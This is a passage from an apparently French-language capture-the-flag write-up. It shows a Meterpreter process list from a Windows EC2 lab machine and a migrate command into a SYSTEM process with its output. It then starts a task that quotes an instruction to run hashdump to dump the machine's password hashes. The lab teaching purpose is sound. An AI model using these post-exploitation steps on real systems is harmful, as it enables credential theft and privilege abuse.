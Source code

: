  696   588   lsm.exe               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\lsm.exe
 816   668   svchost.exe           x64   0        NT AUTHORITY\SYSTEM
 828   668   svchost.exe           x64   0        NT AUTHORITY\SYSTEM
 888   668   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE
 936   668   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE
 1004  640   LogonUI.exe           x64   1        NT AUTHORITY\SYSTEM           C:\Windows\system32\LogonUI.exe
 1076  668   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE
 1176  668   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE
 1260  540   conhost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\conhost.exe
 1300  668   spoolsv.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\spoolsv.exe
 1340  668   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE
 1404  668   amazon-ssm-agent.exe  x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\SSM\amazon-ssm-agent.ex
                                                                                e
 1480  668   LiteAgent.exe         x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\XenTools\LiteAgent.exe
 1588  668   Ec2Config.exe         x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\Ec2ConfigService\Ec2Con
                                                                                fig.exe
 1608  816   WmiPrvSE.exe
 1932  668   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE
 2296  512   Defrag.exe            x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\defrag.exe
 2520  668   TrustedInstaller.exe  x64   0        NT AUTHORITY\SYSTEM
 2776  668   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE
 2808  668   sppsvc.exe            x64   0        NT AUTHORITY\NETWORK SERVICE
 2844  668   svchost.exe           x64   0        NT AUTHORITY\SYSTEM
 2936  668   SearchIndexer.exe     x64   0        NT AUTHORITY\SYSTEM
</pre>

<br>Dans mon cas, c'est le PID `668`, il peut être différent pour vous, soyez attentif.
<br>Il s'agit maintenant de migrer vers le PID:

```bash
migrate 668
```
<pre>
[*] Migrating from 1300 to 668...
[*] Migration completed successfully.
</pre>

<br>

---

## TACHE 4 - CRACKING

<pre>
Within our elevated <b>meterpreter</b> shell, run the command <b>hashdump</b>. This will dump all of the passwords
on the machine as long as we have the correct privileges to do so. What is the name of the
non-default user?
